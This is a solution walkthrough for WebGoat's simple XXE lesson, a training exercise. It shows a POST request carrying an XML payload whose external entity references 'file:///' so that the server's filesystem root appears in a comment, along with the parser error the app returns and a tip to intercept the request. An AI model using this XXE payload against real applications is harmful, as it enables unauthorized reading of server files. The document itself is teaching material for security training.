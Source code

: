 === Assignment solution

The goal of the exercise is to list the root of the file system. If we first try a normal post we see the following request:

[source, xml]
----
POST /WebGoat/xxe/simple
Content-Type: application/xml

<?xml version="1.0"?><comment><text>This is my first comment, nice picture</text></comment>
----

The web page is making a xhr request to post a xml message, after that the comment is displayed in the comment section. Now let's try change the request a bit as shown in the previous section:

[source, xml]
----
POST /WebGoat/xxe/simple
Content-Type: application/xml

<?xml version="1.0" ?><!DOCTYPE user [<!ENTITY root SYSTEM "file:///"> ]><comment><text>&root;</text></comment>
----

So instead of including a specific file we make a reference to the root of the filesystem with `file:///`. If we just copy and paste this in the comment text box you will get an error in the response body

[source,json]
----
{
  "lessonCompleted" : false,
  "feedback" : "Sorry the solution is not correct, please try again.",
  "output" : "...javax.xml.stream.XMLStreamException: ParseError at [row,col]:[1,44]\\nMessage: The processing instruction target matching \\\"[xX][mM][lL]\\\" is not allowed.]"
  "assignment" : "SimpleXXE",
  "attemptWasMade" : true
}
----

This is due to the fact that the JavaScript is taking the input and creates the following message:

[source%linenums, xml]
----
POST /WebGoat/xxe/simple
Content-Type: application/xml

<?xml version="1.0"?>
<comment>
  <text>
    <?xml version="1.0" standalone="yes" ?><!DOCTYPE user [<!ENTITY root SYSTEM "file:///"> ]><comment><text>&root;</text></comment>
  </text>
</comment>
----
Line 7 contains the input entered in text box if we would use the comment form.

To solve the lesson you have to intercept the complete outgoing request and replace the complete body with the solution. See our lessons about intercepting HTTP traffic.